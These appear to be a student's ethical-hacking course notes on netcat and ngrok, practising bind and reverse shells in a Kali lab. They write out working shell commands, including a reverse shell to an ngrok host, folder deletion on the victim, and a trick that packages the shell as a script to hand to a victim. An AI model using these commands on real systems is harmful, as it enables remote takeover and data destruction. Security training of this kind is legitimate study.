#WsCubeTech-CEH-notes 

---
### What we'll learn 
> Lecture Name : Ngrok & Bind Shell , Reverse Shell
> 1) Theory + Practical work : ways to hack the system
> 2) Theory : Hacking via both netcat + ngrok tool : Bind Shell , Reverse Shell
> 3) Practical Work : Bind Shell & Reverse Shell

---
### Theory + Practical work : ways to hack the system
- System hacking via Netcat tool
	- `netcat/nc` : means network communicator
	- when we were doing practical of Netcat tool - then it's saying  1) give me an IP address  2) give a port no.  - & then it'll connect ur system (attacker) to that open port of the Victim's System
	- Eg : let's say a Server & ur system
		- Q : how we access/go to the server  Ans : server has a Public Static IP address & it has a open port always - so that people come to it for a talk  - so let's say a open port of the server is 80 ✔
		- assume , IP address of server is 1.1.1.1
		- Q : i want to connect my system with that server , so what i'll write on my system Ans : so on my system , i'll write `nc <open-port> <IP-address>`  - so `nc 80 1.1.1.1` : 80 port no. & 1.1.1.1 - IP address is of that server  - so here netcat is asking for a open port no. & an IP address of a system
		- & then connection established b/w them  
	- whatever we just saw till yet , we're able establish the connection b/w our system to the Victim's system  via netcat - cuz in Victim's system has vulnerabilities ✔
	- Q : But How to make connection/communicate with a system - which has no vulnerabilities ✔
		- in this situation , we have 2 systems - let's say System "A" & system "B"  - & one of the system want to become a server
		- we use netcat tool to make the system "A" as a server via a command i.e `nc -lvp`✔  - "l" : means listening , "p" : port no. , "v" : verbose 
		- Eg : let's say portno. is 8080 , so command will be `nc -lvp8080`  - now that system "A" becomes a server & it's open port is 8080  
		- Now anyone can connect with that server (earlier it was a normal system)
		- let's say - now System "B" is a client  Q : & the client wants to connect that server  Ans : let's say 1.1.1.1 is the server's Public Static IP address - so that Client can connect with the server ✔
		- so inside the client system , we write `nc 1.1.1.1 8080` , for extra info put -v like this `nc -v 1.1.1.1 8080`
		- due to this , connection will be established b/w them via a port no. & an IP address  - now no hacking is performing , only talking/messaging will happen b/w them ✔ - Eg : from client system , we'll send "Hi" & the server will reply "hello"
		- Conclusion pic :  
	- Practical : System Hacking (which has no vulnerabilities) via Netcat tool ✔
		- STEP 1 : open kali & metasploitable2
		- STEP 2 : in Kali , in terminal , run `sudo su`  STEP 2.1 : run `nc -lvp 8686` (u can give any 4 digit port no. whatever u like) ✔ - output : Listening on [any] 8686 ...
		- so the Kali system - becomes a server 
		- STEP 3 : in Metasploitable2 , we'll make this system as client  - Q : for a client system , what it needs  - Ans : a open port no. & IP address of that server
		- STEP 4 : to get the IP address of the server (here kali is a server) , go in Kali & check it's IP address via `ifconfig`
		- STEP 5 : in Metasploitable2 , run `nc -v 192.168.224.148 8686` - means we're telling to netcat that connect the our system with that server (which has open port no. 8686)  - output : (Note : in 1st line - we'll get a error & 2nd line - we'll get open)  
		- STEP 6 : in Metasploitable2 (which is a client) , write "hi"  STEP 6.1 : go in Kali (which is a server) , output : we'll get "hi"  SETP 6.2 : in Kali write "hello" - then in Metasploitable2 , we'll get "hello"
		- STEP 7 : close the connection , press `CTRL + C`
		- Q : can u join inside this conversation b/w client & server , right now ✔ Ans : No , cuz this server doesn't have a Public Static IP address  - currently , this server is using a private IP address
	- Q : how to give a Public Static IP address to this server ✔ Ans : we a tool i.e Ngrok 
		- About Ngrock - Ngrok need a open port no. - which u want to make world wide  - so when we give a port no. (which we want to make word wide) to it - then it'll make that port no. as open  - then it'll give an IP address (which will be a Public Static IP address) & a open port no.  - so an Public Static IP address & a open port no. which it's giving - if we send these 2 things (IP address & port no.) to a person  & then that person will be connected & communication established b/w u & that person 
		- Eg : let's say Ngrok gives an Public static IP address -> 192.168.66.128 & a open port no. 4141  - so i u share these 2 things i.e IP address & port no. with someone & doesn't matter how far that person from u - that person will be connected on ur 8080 port no.  
	- there's no much difference b/w a client & a server system , except few things  - like server has more configuration & it has a Public Static IP address
- Practical : System Hacking (which has no vulnerabilities) via ngrok tool ✔
	- download & installation & setting it up for work
		- STEP 1 : in kali , open a browser , search "download ngrok"  STEP 1.1 : signup (if u don't have account) , use temp mail for signup - [Temp Mail](https://temp-mail.org/en/) OR [tempmailo](https://tempmailo.com/) OR [emailnator](https://www.emailnator.com/) - if temp-mail is not working then try different website for fack email address  STEP 1.2 : download x86-64amd setup of ngrok for linux  STEP 1.3 : extract the file 
		- STEP 2 : in terminal , run `sudo su`  STEP 2.1 : first check whether that extracted ngrok file has a executable permission or not  , run `ls -l` , output :  
		- so it has executable permission , if it doesn't have executable permission then use `chmod` command
		- Note : don't install it via command line based cuz u'll get many errors if u do
		- STEP 3 : to install it , we need auth token of it  STEP 3.1 : go in ngrok website > go in "Your Authtoken" section > copy the auth-token  STEP 3.2 : run `./ngrok authtoken <paste the auth-token>` - like this  
	- Practical : How to turn it ON & use it
		- STEP 1 : Q : on which port no. - we turn on the server  Ans : 8686  > STEP 1.1 : let's make the kali as server , run `sudo su` then `nc -lvp 8686`  - now "8686" port becomes a server , so anyone client will come on this port no.  - so we'll say to ngrok i.e make that port no. online
		- Note : ngrok will run on that device/system - on which u downloaded ✔  - so it's inside the kali OS & in download folder
		- STEP 2 : `cd Downloads`
		- STEP 3 : `./ngrok tcp 8686`
			- we need to define a protocol based on our need - like here we want to do 1-on-1 communication , so we need "tcp" protocol ✔
			- this command - means make "8686" port no. online via "tcp" protocol by using ngrok tool ✔
			- output :  
		- in output , just see the "forwarding" line , in `tcp://0.tcp.in.ngrok.io:15576`
			- "0.tcp.in.ngrok.io" : is a domain (which u can say IP-address) ✔
			- "15576" : is a port no. ✔
			- in a server system , after domain name - a colon comes & after colon - a port no. is defined
		- STEP 4 : in order to bring that client on ur server system - then we need to create a command for that client
			- & once that client run that command on his/her system then only that client can talk
			- STEP 4.1 : run this command on client system , not on the server system - `nc -v 0.tcp.in.ngrok.io 15576` 
			- STEP 4.2 : open that terminal on which u executed this command "nc -lvp 8686" , output : if someone connected  
			- in output , if someone connect then we'll get message "connect to [IP-address] from localhost [IP-address] port-no."
			- so that client can talk to the server , doesn't matter how far that client is from the server  - so i u share this command "`nc -v 0.tcp.in.ngrok.io 15576`" to anyone then that client will be connected to u
		- STEP 5 : to break the connection , open that terminal on which u executed this command "nc -lvp 8686" , press `Ctrl + C`
		- hope u understood the communication done b/w 2 systems via ngrok tool
- now we'll see how to do hacking the system via ngrok tool

### Theory : Hacking via both netcat + ngrok tool : Bind Shell , Reverse Shell
- types of hacking done via ngrok tool : bind shell & reverse shell
- first , we'll see Bind Shell then Reverse Shell , to get the better understanding ✔
- About : Bind Shell & Reverse Shell ✔
	- Bind Shell
		- in bind shell , assume we have 2 systems i.e one is attacker system & another is victim system  
		- Things for Victim's System  - so we (as a attacker) , make that Victim's system as a server , so the command was Eg : `nc -lvp 8686`  - but we add a extra thing inside that command i.e `-e /bin/bash`  - So complete command is `nc -lvp 8686 -e /bin/bash` ✔ > `-e` : means explore or bring the location of a file ✔  > `/bin/bash` : is a location of terminal ✔
		- so whenever we go to connect with the server (i.e Victim's system) - then we'll reach to this location "`/bin/bash`"  - & obvious thing i.e Victim's system is a server , so we open the port no. 8686 - so the server also open that port no. too ✔ - & once the server (i.e Victim's system) open the port no. - then "`/bin/bash`" location will be shared on that port no. ✔
		- & assume that the server (i.e Victim's system) has a Public Static IP address is 1.1.1.1
		- so inside Victim's system , this command "`nc -lvp 8686 -e /bin/bash`" executed by a attacker ✔
		- Q : what a attacker will do on his/her system , means what that attacker will write on his/her system Ans : that attacker will write `nc 1.1.1.1 8686`  - once the the attacker is connected with the Victim's system , then the attacker can run all the commands
	- Reverse Shell 
		- in it , attacker system becomes a server via "`nc -lvp 8686`"  & assume this server's IP is 2.2.2.2 - Q : What Victim system will run a command   Ans : i.e "`nc 2.2.2.2 8686 -e /bin/bash`"
		- so when a client (i.e Victim's system) comes to connect wit the server (i.e attacker system)   - so when that client comes to connect with the server - then during during making a connection ,  client system will bring that location i.e "`/bin/bash`" (means terminal location)
	- difference b/w Bind Shell vs Reverse shell
		- in Bind Shell , we (as a attacker/client) making connection with the server (i.e Victim's system)  - means we're going to Victim's system to make establish the connection
		- in Reverse shell , Victim (i.e client) is bring a connection (with the terminal location) towards the attacker (i.e server) 
		- in Bind Shell , attacker is a client & Victim is a server  in Reverse shell , attacker is a server & victim is a client ✔
	- firewall situation with Bind Shell vs Reverse shell
		- while doing Bind shell , 
			- might firewall of Victim's system will stop u (i.e attacker) from entering inside Victim's system (i.e server)  - means mostly - firewall will protect client's system from those connections (which are coming from outside) ✔
			- so like if attacker is going to make a connection on this "8686" port no. of Victim's system  then might be - firewall will stop the attacker's system  - if we try too much to make the connection on port no. 8686 - then firewall will block the IP-address of a attacker ✔
			- Q : why firewall (of Victim's system) will block the IP-address (of attacker)  Ans : cuz we (as a attacker) going to the Victim's system to establish the connection
		- while doing Reverse Shell , 
			- Q : Eg : when u (as a server) do screen-share ur system via Any-desk , then is any-desk ever stopped u ?  like u can't share ur screen , etc ..  Ans : No , cuz u (as a server) bringing connection - means u're giving the connection of ur system to someone else
			- then in this situation , firewall of Victim's system will not stop the connection to establish with someone else
			- so in Reverse shell , Victim's system - itself brings the connection
	- in Both Bind Shell & Reverse shell ,  Q : why Victim run the command ✔ Ans : Victim will not run the command , we (as a attacker) make the Victim  that he/she will execute the command - via using a trick
	- Conclusion Pic :  
- let's see the practical of both Bind Shell & Reverse Shell

### Practical Work : Bind Shell & Reverse Shell
- Practical Work : Bind Shell
	- STEP 0 : in both kali terminal (of Victim + attacker machine), run `sudo su`
	- STEP 1 : u're a Victim (i.e server) & in ur kali terminal , run `nc -lvp 8686 -e /bin/bash`
		- output  
		- in output , "connect to [ip-address] from localhost [ip-address] portno." : means someone is connected ✔
	- STEP 1.1 : then run `./ngrok tcp 8686`
		- output  
		- in output , "`0.tcp.in.ngrok.io:15576 --> localhost:8686`" : means  > "`0.tcp.in.ngrok.io`" : is a IP-address & "`15576`" : is a port no.  = means a client - & overall means if someone connect on these IP-address & a port no. then  that person will come in localhost:8686 (i.e server) ✔
	- STEP 2 : another person is a attacker (i.e client) & in his/her kali terminal , run `nc -v 0.tcp.in.ngrok.io 15576`
	- STEP 3 : inside attacker (i.e client) system , when he/she run , `sudo su``ls`  - output : all the files & folders of the server (i.e Victim) will be shown
	- now we can perform any operations like deleting a folder or folder permanently of Victim system (i.e server), etc
	- STEP 4 : inside attacker (i.e client) system , run `rm -r <folder-name>` ,  output : inside Victim system (i.e server) that folder will be removed permanently
	- STEP 5 : inside attacker (i.e client) system , press `CTRL + C` : to stop the connection
	- so in Bind Shell , 2 systems are connected each other & we can access the Victim's system  - & Victim will not get any idea about it
- Practical Work : Reverse Shell
	- STEP 1 : inside attacker (i.e server) kali terminal , run `nc -lvp 8686` : means we're opining a port no. i.e 8686  STEP 1.1 : inside attacker (i.e server) kali terminal , run `ngrok tcp 8686`  - "ngrok tcp 8686" command : means ngrok will provide a Public Static IP address ✔  - "8686" command : this port no. is of attacker system ✔
	- we as a attacker (i.e server) will make a command for a Victim (i.e client) system  - i.e `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash` : so this command for Victim system
	- STEP 2 : inside Victim (i.e client) kali terminal , run `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`
		- output : attacker will get the access of files & folders of Victim's system (i.e client)
		- "`nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`" : means we (as a attacker/server) saying to Victim (i.e client)  that come on my/attacker's server (cuz my server is open) & connect on this server  & once u/Victim connecting - bring the location (i.e /bin/bash i.e terminal) ✔
	- Eg : here Saurabh (i.e victim/client) executed this command "`nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`"  - & when sir (i.e attacker/server) executed this command `nc -lvp 8686` + "`ngrok tcp 8686`"  - then sir (i.e attacker/server) got access of files & folders of Saurabh (i.e victim/client)  - now sir can do what he wants  
	- STEP 3 : inside Victim (i.e client) system , break the connection - press `CTRL + C`
- Practical - A Trick to execute that command inside the Victim's system
	- Q : why Victim wants to run that command & give the access of his/her system to unknown person 
	- here we're taking example of reverse shell
	- STEP 1 : we make a file , run `gedit reverseshell.sh`  - ".sh" file extension : means a bash executable file
	- STEP 2 : inside the file , paste the command i.e `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash`
		- Note : don't leave a empty line inside that file - like this  
		- STEP 2.1 : save the file
		- `nc -v 0.tcp.in.ngrok.io 15576 -e /bin/bash` : means ✔ - "0.tcp.in.ngrok.io 15576" : come to connect on this IP address & port no.  - "-e /bin/bash" : means once victim's system comes to connect then his/her system will bring this location 
	- STEP 3 : check whether that file has executable permission or not , run `ls -l` , output : it's not have executable permission > STEP 3.1 : giving executable permission to the file , run `chmod +x reverseshell.sh`
	- now we'll share the file with a Victim
	- STEP 4 : inside Victim (i.e client) System's kali terminal , run `./reverseshell.sh`  - Note : if Victim (i.e client) running this command & connection gets open & exit suddenly  then means attacker (i.e server) closed the server ✔
- Note ✅ : Reverse Shell is much better than Bind Shell
	- cuz attacker becomes a server & attacker able to give a Public Static IP address to the victim (i.e client)
	- cuz if we make that Victim as a server then no surety that whether  Victim (who is a server) have a Public Static IP address or not in bind shell ✔
	- that's why mostly we use Reverse Shell ✔

---
### Homework
1. 

---
### End of the lecture (Doubts) :
- Q : is all hackers use windows OS or Linux based OS to compromise or hack the Victim's system  Ans : Linux
- Q : is more networking required  Ans : Devendra sir taught u enough about networking - which is required to know , but if u want to learn more then u can   - cisco advance network can be done if u want  - the more clearly u understand about networking or any concept in Cyber Security - the better u'll able to do hacking
- Q : Ways to use ngrok
	- Q : can 2 hackers can use ngrok for communication ?  Ans : Yes - cuz it provides secure communication
	- u can give access of ur system to someone - so that he/she can work in ur system  - this can be done in windows also , just search "how to download netcat for windows"
- Q : is ngrok actually safe  Ans : nothing is safe & secure completely  - but when we open it's website then it's asking for cookies , hopefully we didn't gave our actual email  - but it took ur system cookies  , so if illegal activities done from ur side - then investigation can happen
- Mine doubts : 
	- Q : in order to talk via ngrok is both the system should have ngrok installed or just 1 system can have it  Ans : To talk via ngrok, only one system needs to have ngrok installed. The system that has ngrok installed  will act as a proxy and allow the other system to access a local service running on it. The other system can access  the local service by connecting to the ngrok URL provided by the system with ngrok installed.
	- Q : via ngrok , only 1 client or multiple clients can talk to the server at the same time  Ans : Ngrok allows multiple clients to talk to the server at the same time,  but the number of simultaneous ngrok agent sessions is limited based on the plan. The free tier account  allows only one port to be exposed at a time, but it is possible to expose multiple ports using a configuration file.
- Advice : to remember things what u learned - by Devendra Sir
	1. make notes properly of that concept
	2. Reality : nobody can't remember everything  - u'll only able to know once somebody make clicks in ur mind  - & u'll always feel like u don't know about that concept , etc..  But when somebody ask questions about it from u then ur mind will click/connect  - so at the end of the day , if somebody makes u click about that concept - then ur mind will start remembering stuff
	3. do Practice of that concept what u have learned
	4. try to revisit + re-watch it on the lecture
	5. Mine advice : make a rough sketch of that concept
